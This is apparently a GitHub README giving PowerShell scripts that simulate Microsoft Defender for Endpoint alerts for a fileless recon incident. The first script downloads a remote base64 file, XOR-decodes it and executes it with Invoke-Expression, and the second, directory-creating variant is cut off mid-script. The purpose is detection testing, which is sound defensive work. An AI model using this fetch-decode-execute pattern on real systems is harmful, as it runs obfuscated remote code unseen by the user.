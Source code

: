 ![image](https://github.com/user-attachments/assets/d3960213-0cee-4348-b841-5166cd7a3c52)# Simulate MDE alerts and incidents

## 1. Multi-stage incident involving Defense evasion & Discovery on one endpoint

### Download `MTP_Fileless_Recon.txt` to `C:\Temp\MTP_Fileless_Recon.txt` from url below
```
https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt
```

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;

# Define the URL and the destination path
$url = "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt"
$destination = "C:\Temp\MTP_Fileless_Recon.txt"

# Download the file
Invoke-WebRequest -Uri $url -OutFile $destination

$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection')

$base64String = Get-Content -Path "C:\Temp\MTP_Fileless_Recon.txt"

Try {
    $contentBytes = [System.Convert]::FromBase64String($base64String)
} Catch {
    $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3))
}


$i = 0

$decryptedBytes = @()

$contentBytes.ForEach{
    $decryptedBytes += $_ -bxor $xor[$i]
    $i++
    if ($i -eq $xor.Length) {
        $i = 0
    }
}

Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
 
```


### This script now includes a check to see if the directory C:\Temp exists, and if it doesn't, it creates the directory before downloading the file.
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;

# Define the URL and the destination path
$url = "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt"
$destination = "C:\Temp\MTP_Fileless_Recon.txt"
$destinationDir = [System.IO.Path]::GetDirectoryName($destination)

# Create the directory if it doesn't exist
If (-Not (Test-Path -Path $destinationDir)) {
    New-Item -ItemType Directory -Path $destinationDir
}
```